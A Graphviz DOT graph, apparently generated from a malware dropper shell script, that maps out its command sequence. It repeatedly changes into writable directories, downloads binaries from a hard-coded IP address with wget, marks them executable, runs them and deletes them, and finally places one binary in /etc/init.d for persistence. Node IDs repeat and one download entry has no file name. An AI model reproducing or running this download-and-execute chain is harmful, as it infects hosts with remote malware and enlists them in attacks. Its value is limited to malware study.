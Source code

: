 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://194.67.209.171/lungkass "];
10 -> 12 [label=";,"];
12 [label="chmod +x lungkass "];
12 -> 14 [label=";,"];
14 [label="./lungkass "];
14 -> 16 [label=";,"];
16 [label="rm -rf lungkass "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://194.67.209.171/mangoss "];
28 -> 30 [label=";,"];
30 [label="chmod +x mangoss "];
30 -> 32 [label=";,"];
32 [label="./mangoss "];
32 -> 34 [label=";,"];
34 [label="rm -rf mangoss "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://194.67.209.171/openggls "];
46 -> 48 [label=";,"];
48 [label="chmod +x openggls "];
48 -> 50 [label=";,"];
50 [label="./openggls "];
50 -> 52 [label=";,"];
52 [label="rm -rf openggls "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://194.67.209.171/vasts "];
64 -> 66 [label=";,"];
66 [label="chmod +x vasts "];
66 -> 68 [label=";,"];
68 [label="./vasts "];
68 -> 70 [label=";,"];
70 [label="rm -rf vasts "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://194.67.209.171/greypsss "];
82 -> 84 [label=";,"];
84 [label="chmod +x greypsss "];
84 -> 86 [label=";,"];
86 [label="./greypsss "];
86 -> 88 [label=";,"];
88 [label="rm -rf greypsss "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://194.67.209.171/kuhamos "];
100 -> 102 [label=";,"];
102 [label="chmod +x kuhamos "];
102 -> 104 [label=";,"];
104 [label="./kuhamos "];
104 -> 106 [label=";,"];
106 [label="rm -rf kuhamos "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://194.67.209.171/marcoss "];
118 -> 120 [label=";,"];
120 [label="chmod +x marcoss "];
120 -> 122 [label=";,"];
122 [label="./marcoss "];
122 -> 124 [label=";,"];
124 [label="rm -rf marcoss "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://194.67.209.171/chikosss "];
136 -> 138 [label=";,"];
138 [label="chmod +x chikosss "];
138 -> 140 [label=";,"];
140 [label="./chikosss "];
140 -> 142 [label=";,"];
142 [label="rm -rf chikosss "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://194.67.209.171/pchikoss "];
154 -> 156 [label=";,"];
156 [label="chmod +x pchikoss "];
156 -> 158 [label=";,"];
158 [label="./pchikoss "];
158 -> 160 [label=";,"];
160 [label="rm -rf pchikoss "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://194.67.209.171/sh "];
172 -> 174 [label=";,"];
174 [label="chmod +x sh "];
174 -> 176 [label=";,"];
176 [label="./sh "];
176 -> 178 [label=";,"];
178 [label="rm -rf sh "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://194.67.209.171/  "];
190 -> 192 [label=";,"];
192 [label="chmod +x   "];
192 -> 194 [label=";,"];
194 [label="./  "];
194 -> 196 [label=";,"];
196 [label="rm -rf   "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://194.67.209.171/facebook3 "];
208 -> 210 [label=";,"];
210 [label="chmod +x facebook3 "];
210 -> 212 [label=";,"];
212 [label="./facebook3 "];
212 -> 214 [label=";,"];
214 [label="rm -rf facebook3 "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://194.67.209.171/netdelds "];
226 -> 228 [label=";,"];
228 [label="chmod +x netdelds "];
228 -> 230 [label=";,"];
230 [label="./netdelds "];
230 -> 232 [label=";,"];
232 [label="rm -rf netdelds "];
232 -> 234 [label=";,"];
234 [label="cd /etc/init.d "];
234 -> 234
236 [label="wget http://194.67.209.171/dakma2 "];
236 -> 238 [label=";,"];
238 [label="chmod 0777 dakma2 "];
238 -> 240 [label=";,"];
240 [label="./dakma2 "];
240 -> 241 [label=";,"];
}
